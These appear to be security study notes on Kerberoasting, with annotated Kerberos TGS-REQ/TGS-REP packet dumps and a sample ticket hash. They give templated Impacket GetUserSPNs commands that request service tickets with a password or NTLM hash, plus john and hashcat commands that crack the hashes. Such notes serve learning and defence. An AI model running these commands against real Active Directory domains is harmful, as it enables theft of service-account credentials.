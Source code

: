 Kerberoasting is an attack that targets the Kerberos authentication protocol to extract service account credentials. 

- The attack exploits the way Kerberos handles service tickets (TGS-REP). 
- Service Tickets are encrypted with service account's NTLM hash.
- So, By requesting service tickets for all SPNs (Service Principal Names), an attacker can perform offline brute-force attack to obtain plaintext passwords.

Here's how it works:
#### TGS REQ

```
Kerberos TGS-REQ
	pvno: 5
	msg-type: krb-tgs-req (12)
	padata: 1 item
	    PA-DATA
            padata-type: pA-TGS-REQ (1)
            padata-value: 6e82953d308290539a003920105
	req-body
	    Padding: 0
	    kdc-options: 40810010 (hex)
	    realm: DOMAIN.COM
	    sname:
            name-type: kRB5-NT-MS-PRINCIPAL (-128)
            sname-string:
               SNameString: DOMAIN.COM\web_srv
	    till: Jul 8, 2025 03:54:18.000000000 IST
	    nonce: 665478473
	    etype:
	        eTYPE-ARCFOUR-HMAC-MD5 (23) [RC4]
	        eTYPE-DES3-CBC-SHA1 (16)
	        eTYPE-DES-CBC-MD5 (3)
	        eTYPE-ARCFOUR-HMAC-MD5 (23) [RC4 - repeated]
	    
```

- padata: TGT (encrypted with KDC secret key) + timestamp (encrypted with session key)
- sname: service name
#### TGS REP

```
Kerberos TGS-REP
	pvno: 5
	msg-type: krb_tgs_rep 13
    crealm: DOMAIN.COM
	cname:
	    nametype: 1 (kRB5-NT-PRINCIPAL)
	    name: bob
	ticket
	    tkt-vno: 5
	    realm: DOMAIN.COM
	    sname:
	        nametype: -128 (kRB5-NT-MS-PRINCIPAL)
	        snamesting: DOMAIN.COM\web_svc
	    enc-part
	        etype: 23 (RC4 - ARCFOUR-HMAC-MD5)
	        kvno: 2
	        cipher: d5a12d0d96c40db1e1c923ac35a8bbb965ef275a8899a48fede4
	enc-type:
	    enctype: 23 (RC4 - ARCFOUR-HMAC-MD5)
	    cipher: a7e146fddf968e4b838ccae2687944c04fa3519d2fea8aeddff42

```

- cname: Client requesting the ticket.
- ticket: Service ticket for web_svc.
- ticket.enc-part: The ticket encrypted with the service's key (web_svc's password hash only the service and KDC know this key).
- enc-type: here again session key, encrypted with the session key from TGT.

```
$krb5tgs$23$*web_svc$DOMAIN.COM$domain.com/web_svc*d5a12d0d96c40db1e1c923ac35a8bbb965ef275a8899a48fede4...
```

### Performing Kerberoasting with Impacket

**with a password**
```
impacket-GetUserSPNs <domain>/username:password -outputfile hashes.txt -request -dc-ip <domain_controller_ip>
```

```
GetUserSPNs.py <domain>/<username>:<password> -dc-ip <domain_controller_ip> -request
```

**with a hash**
```
impacket-GetUserSPNs -hashes <lmhash>:<nthash> <domain>/username -outputfile hashes.txt -request -dc-ip <domain_controller_ip>
```

```
GetUserSPNs.py -request -hashes LMHASH:NTHASH <domain>/<username>:<ntlm_hash> -dc-ip <domain_controller_ip>
```

![[Pasted image 20250721115853.png]]

### Crack Kerberose Hash

```
john --format=krb5tgs --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
```

```
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlist/rockyou.txt
```

![[Pasted image 20250721122054.png]]